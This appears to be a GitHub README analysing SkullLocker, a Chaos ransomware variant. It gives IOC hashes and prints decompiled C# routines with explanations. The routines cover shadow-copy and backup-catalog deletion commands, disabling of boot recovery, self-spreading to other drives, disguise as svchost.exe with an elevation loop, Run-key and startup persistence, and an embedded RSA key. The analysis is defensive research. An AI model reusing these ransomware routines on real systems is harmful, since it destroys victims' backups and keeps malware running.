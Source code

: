 # SkullLocker-Analysis
A small Analysis of SkullLocker Code  



#### (SkullLocker is new Variant of Chaos Ransomware )

*IOCS :*

- SkullLocker : 

MD5 : 62e53bc5aa5f2a70a54e328bff51505f

SHA1 : e7deceee97a09d539d81eb91f988ece5e2a2ff51

SHA256 : bb5ca9d8de51734dbd14dc081c7c892d819cd14fafd7ccd62849d70f9e679369

- Chaos :

MD5 : 98274f8ae42ac490c3441b3b14459356

SHA1 : 59a80c57499b6eb5de31fcbf582eeeb1c3b20e9d

SHA256 : d09b875ead838ec256b863b5e8e252d5bca9172b5479b00699ff31b4d745c92b

*Behaviour :*

```cs
private static void deleteShadowCopies()
		{
			Program.runCommand("vssadmin delete shadows /all /quiet & wmic shadowcopy delete");
		}
```

- delete all the shadow copies on the system to prevent users from recovering previous versions of files or folders.

```cs
private static void disableRecoveryMode()
		{
			Program.runCommand("bcdedit /set {default} bootstatuspolicy ignoreallfailures & bcdedit /set {default} recoveryenabled no");
		}
```

- configure the Windows Boot Manager settings to ignore any boot failures and disable the automatic startup repair .

```cs
private static void deleteBackupCatalog()
		{
			Program.runCommand("wbadmin delete catalog -quiet");
		}
```

-  Delete the backup catalog. The backup catalog is a database that contains information about the backups created using Windows Backup . 


```cs
private static string spreadName = "skull.exe";
```

```cs
private static void spreadIt(string spreadName)
		{
			foreach (DriveInfo driveInfo in DriveInfo.GetDrives())
			{
				if (driveInfo.ToString() != "C:\\" && !File.Exists(driveInfo.ToString() + spreadName))
				{
					try
					{
						File.Copy(Assembly.GetExecutingAssembly().Location, driveInfo.ToString() + spreadName);
					}
					catch
					{
					}
				}
			}
		}
```

- the malware spreading itself across the computer's drives except for "C" under the name of skull.exe 

```cs
private static string processName = "svchost.exe";
```

```cs
private static void copyResistForAdmin(string processName)
		{
			string friendlyName = AppDomain.CurrentDomain.FriendlyName;
			string location = Assembly.GetExecutingAssembly().Location;
			Environment.GetFolderPath(Environment.SpecialFolder.Startup) + "\\" + friendlyName;
			string text = Environment.GetFolderPath(Environment.SpecialFolder.ApplicationData) + "\\";
			string text2 = text + processName;
			ProcessStartInfo startInfo = new ProcessStartInfo(text2)
			{
				UseShellExecute = true,
				Verb = "runas",
				WindowStyle = ProcessWindowStyle.Normal,
				WorkingDirectory = text
			};
			Process process = new Process();
			process.StartInfo = startInfo;
			if (friendlyName != processName || location != text2)
			{
				if (!File.Exists(text2))
				{
					File.Copy(friendlyName, text2);
					try
					{
						Process.Start(startInfo);
						Environment.Exit(1);
						return;
					}
					catch (Win32Exception ex)
					{
						if (ex.NativeErrorCode == 1223)
						{
							Program.copyResistForAdmin(processName);
						}
						return;
					}
				}
				try
				{
					File.Delete(text2);
					Thread.Sleep(200);
					File.Copy(friendlyName, text2);
				}
				catch
				{
				}
				try
				{
					Process.Start(startInfo);
					Environment.Exit(1);
				}
				catch (Win32Exception ex2)
				{
					if (ex2.NativeErrorCode == 1223)
					{
						Program.copyResistForAdmin(processName);
					}
				}
			}
		}
```

- Copies  Friendlyname (current executable name) if it doesnt already exist to **/AppData/Roaming/** under the name of **svchost.exe** then creates a new ProcessStartInfo object that specifies the process to start and sets the appropriate properties for the process to run with elevated privileges.

```cs
private static void addLinkToStartup()
		{
			string folderPath = Environment.GetFolderPath(Environment.SpecialFolder.Startup);
			string str = Process.GetCurrentProcess().ProcessName;
			using (StreamWriter streamWriter = new StreamWriter(folderPath + "\\" + str + ".url"))
			{
				string location = Assembly.GetExecutingAssembly().Location;
				streamWriter.WriteLine("[InternetShortcut]");
				streamWriter.WriteLine("URL=file:///" + location);
				streamWriter.WriteLine("IconIndex=0");
				string str2 = location.Replace('\\', '/');
				streamWriter.WriteLine("IconFile=" + str2);
			}
		}
```

- also it adds a link file to this  path ( **\\AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\Startup**)  under **svchost.url** .

```cs
private static void registryStartup()
		{
			try
			{
				RegistryKey registryKey = Registry.CurrentUser.OpenSubKey("SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run", true);
				registryKey.SetValue("Microsoft Store", Assembly.GetExecutingAssembly().Location);
			}
			catch
			{
			}
		}
```

- utilizing the SetValue method to assign the location of the present executable file as the value for the "**Microsoft Store**" key. The objective is to add a registry entry to the Windows registry, which enables the current application to launch automatically during system startup .


##  Encryption :

![Schema](works.png)

- XML string representation of an RSA public key.

```cs
public static string rsaKey()
		{
			StringBuilder stringBuilder = new StringBuilder();
			stringBuilder.AppendLine("<?xml version=\"1.0\" encoding=\"utf-16\"?>");
			stringBuilder.AppendLine("<RSAParameters xmlns:xsd=\"http://www.w3.org/2001/XMLSchema\" xmlns:xsi=\"http://www.w3.org/2001/XMLSchema-instance\">");
			stringBuilder.AppendLine("  <Exponent>AQAB</Exponent>");
			stringBuilder.AppendLine("  <Modulus>4On6FTL3V5M4vs3OcxgegY+zBSLFwmoId3WY+pftKnF6iQzRS6axqTFO6ciu1N/JJwU5FKbMx1AauuHO4j0miKeDiKWRiv2O3O2QaVFZhggupZp/P0amGQa9NYG9eHSB7kL5UHFDOgk44EyTTOYeDoA2c9C83YHyPF3/WrkfQrE=</Modulus>");
			stringBuilder.AppendLine("</RSAParameters>");
			return stringBuilder.ToString();
		}
```

- Function to generate a random password with the given length

```cs
public static string CreatePassword(int length)
		{
			StringBuilder stringBuilder = new StringBuilder();
			Random random = new Random();
			while (0 < length--)
			{
				stringBuilder.Append("abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890*!=&?&/"[random.Next("abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890*!=&?&/".Length)]);
			}
			return stringBuilder.ToString();
		}
```

# Full Report :  https://c3p0d4y.github.io/2023/03/skullocker/
